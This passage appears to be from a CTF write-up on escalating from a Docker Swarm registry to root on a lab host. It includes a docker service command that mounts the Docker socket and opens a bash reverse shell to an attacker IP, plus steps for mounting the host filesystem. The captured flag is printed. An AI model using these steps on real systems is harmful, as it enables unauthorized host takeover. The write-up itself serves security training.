 First we set up a docker swarm on our attacker machine, then join the target server as a worker node.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_swarm_11.png" alt="" position="center" style="border-radius: 8px;" >}}

With the target part of our swarm, we can create a docker service that will launch a container of our choosing on the nodes. 

During my research on how I can mount stuff in the docker container, I learnt that I can mount the docker socket of the server inside the container.

My idea was to mount the docker socket into the container, then run another privileged docker container and get access to the host filesystem of our target server. 

The only problem I had was to get the docker binary into the container. To solve this I needed to get a container that contains wget/curl and to get a static docker binary. The static docker binary I could download from the link below.

[https://download.docker.com/linux/static/stable/x86_64/](https://download.docker.com/linux/static/stable/x86_64/)

For the docker container I could either build one or get one off of dockerhub, I chose to look for one and landed on this one below.

[https://hub.docker.com/r/devorbitus/ubuntu-bash-jq-curl](https://hub.docker.com/r/devorbitus/ubuntu-bash-jq-curl)

Now let's get attacking:

```Step 1:``` Push the container image to the target's registry from our attacker machine.

```sh
docker tag devorbitus/ubuntu-bash-jq-curl:latest swarm.htb:5000/ubuntu-bash-jq-curl:v1
```
```sh
docker push swarm.htb:5000/ubuntu-bash-jq-curl:v1  
```

```Step 2:``` Create the docker service to launch our container on the worker node (which is our target server) with the docker socket mounted inside, then get command execution inside the container.

```sh
docker service create --constraint node.role==worker --name pwn --mount type=bind,source=/var/run/docker.sock,target=/var/run/docker.sock,ro swarm.htb:5000/ubuntu-bash-jq-curl:latest /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.95/8000 0>&1'
```

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_swarm_12.png" alt="" position="center" style="border-radius: 8px;" >}}

At this point we have command execution on the container running on the target.

```Step 3:``` Download the docker static binary into the container, so we can interact with docker on the target server.

I set up a python web server on my attacker machine, then used curl to download the docker binary on to the container.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_swarm_13.png" alt="" position="center" style="border-radius: 8px;" >}}

Now we confirm we can interact with docker on the target host.

```Step 4:``` Run another container mounting the filesystem of the host into that container.

We successfully mount the filesystem of the host into the new container and can read the root flag.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_swarm_14.png" alt="" position="center" style="border-radius: 8px;" >}}

root.txt: **HTB{5tunG_bY_th3_5w4rm}**

### Post CTF
```